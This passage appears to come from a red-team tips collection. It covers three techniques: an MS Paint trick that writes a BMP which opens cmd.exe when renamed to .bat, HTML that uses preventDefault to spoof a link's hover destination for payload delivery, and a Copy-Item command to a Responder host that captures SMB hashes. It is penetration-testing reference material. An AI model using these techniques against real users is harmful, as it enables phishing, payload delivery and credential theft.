 Link: Twitter

🔙CMD shortcut with 6 pixels via mspaint
image

Open MSPaint.exe and set the canvas size to: Width=6 and Height=1 pixels
Zoom in to make the following tasks easier
Using the colour picker, set pixels values to (from left to right):
1st: R: 10, G: 0, B: 0
2nd: R: 13, G: 10, B: 13
3rd: R: 100, G: 109, B: 99
4th: R: 120, G: 101, B: 46
5th: R: 0, G: 0, B: 101
6th: R: 0, G: 0, B: 0
Save it as 24-bit Bitmap (.bmp;.dib)
Change its extension from bmp to bat and run.
Description: 'An unusual, yet effective method of gaining a shell by creating a shortcut to cmd.exe by drawing certain colours in Microsoft Paint. Due to the encoding algorithm used to write BMP files, it is possible to dictate ASCII data written into a file by carefully selecting certain RGB colours.'

Credit: PenTestPartners

Link: Blog

🔙Link spoofing with PreventDefault JavaScript method
image

<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>PreventDefault Example</title>
  </head>
  <body>
    <a href="https://google.com" onclick="event.preventDefault(); window.location.href = 'https://bing.com';">Go to Google</a>
  </body>
</html>
Description: Threat actors have been observed using this technique to trick victims into clicking spoofed in-page malware download links. Using the PreventDefault JavaScript method you can spoof the hover link to display a legit link google.com, but once clicked the victim will be redirected to your malicious link bing.com. Great for getting victims to download payloads via a controlled site.

Link: PreventDefault Docs

🔙Check SMB firewall rules with Responder
image

Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"
Description: 'When I do a Compromise Assessment, I often ask the customer if I can do a last quick check: Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$". If Responder could capture the hash, the firewall allows outgoing SMB connections'

Credit: @malmoeb
